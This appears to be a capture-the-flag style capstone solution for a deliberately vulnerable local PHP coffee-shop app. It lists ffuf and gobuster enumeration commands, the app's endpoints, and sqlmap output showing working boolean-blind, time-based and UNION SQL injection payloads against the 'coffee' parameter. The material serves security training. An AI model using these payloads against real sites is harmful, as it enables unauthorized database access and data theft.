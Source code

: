 ### Lab Reset

To reset the lab environment, use the following URL: `http://localhost/capstone/init.php`

## Capstone - Solution

### ENUMERATION

- Use FFUF to enumerate directories and files within the target. The command below specifies the URL and wordlist to use, along with recursion to explore subdirectories: `ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion`
- Alternatively, use Gobuster to enumerate directories and files. The command below specifies the URL, wordlist, and file extensions to search for: `gobuster dir -u http://localhost/capstone -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -x .php`

### PATHS

- GET http://localhost/capstone/index.php
- GET http://localhost/capstone/coffee.php?coffee=1
- GET http://localhost/capstone/admin/admin.php
- GET http://localhost/capstone/index.php?message=You%20are%20now%20logged%20out!
- GET http://localhost/capstone/index.php?message=You%20successfully%20logged%20in!
- GET http://localhost/capstone/logout.php
- POST http://localhost/capstone/auth.php username=username&password=password&auth=login
- POST http://localhost/capstone/auth.php username=username&password=password&password-repeat=passwor&auth=signup
- POST http://localhost/capstone/coffee.php?coffee=1 rating=rating&coffee_id=8&comment=comment
- POST http://localhost/capstone/admin/admin.php

### SQL Injection

- Save the following BurpSuite request to a text file (`coffee.txt`): `http://localhost/capstone/coffee.php?coffee=1`
- Use SQLMap to test for SQL injection vulnerabilities: `sqlmap -r coffee.txt`

```
Parameter: coffee (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: coffee=1' AND 6176=6176 AND 'qrgz'='qrgz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: coffee=1' AND (SELECT 2932 FROM (SELECT(SLEEP(5)))FsSG) AND 'bflN'='bflN

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: coffee=1' UNION ALL SELECT NULL,CONCAT(0x7178706b71,0x42654f7050784b4572776a51454270704c766b4c5952535661526145684d4c6f74556e7756555a4a,0x7170787871),NULL,NULL,NULL,NULL,NULL-- -

```
